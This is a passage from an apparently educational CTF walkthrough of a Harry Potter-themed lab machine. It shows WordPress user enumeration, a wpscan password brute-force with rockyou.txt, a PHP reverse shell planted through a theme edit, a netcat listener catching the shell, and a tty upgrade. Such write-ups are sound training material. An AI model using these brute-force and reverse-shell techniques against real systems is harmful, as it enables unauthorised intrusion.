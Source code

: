 ```shell
...
[+] draco
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.1.39/DiagonAlley/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] Draco
 | Found By: Rss Generator (Passive Detection)
```

User draco is valid so let's use rockyou.txt to bruteforce the login

```shell
wpscan --url http://192.168.1.39/DiagonAlley -P ~/wordlist/rockyou.txt -U draco
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
...
[!] Valid Combinations Found:
 | Username: draco, Password: slytherin
```

Right we have the password but, do you remember what I said about the apache page earlier? well it turns out this is not the only way of getting the password since if you look at the html code of the apache page there is a hint that says "Draco's password is his house ;)" Therefore that is another way to log in. You could also do a bit of "social engineering" and create your own Harry Potter wordlist. That's why I marked the machine as very easy because you can solve it in many different ways (not only this step).


Well once logged as an administrator I used the same trick ad in the [mr.robot machine](./mr.robot.md) that is changing the theme of a page to a php reverse shell. In this case I changed the main page to the php reverse shell that can be found [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Once in I improved the tty and logged as dobby

```shell
 nc -lvp 7777
Connection from 192.168.1.39:51810
Linux HogWarts 5.8.0-26-generic #27-Ubuntu SMP Wed Oct 21 22:29:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:00:02 up  7:39,  0 users,  load average: 0.00, 0.08, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@HogWarts:/$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777

www-data@HogWarts:/$ stty rows 30 columns 132
www-data@HogWarts:/$ su dobby
Password:
```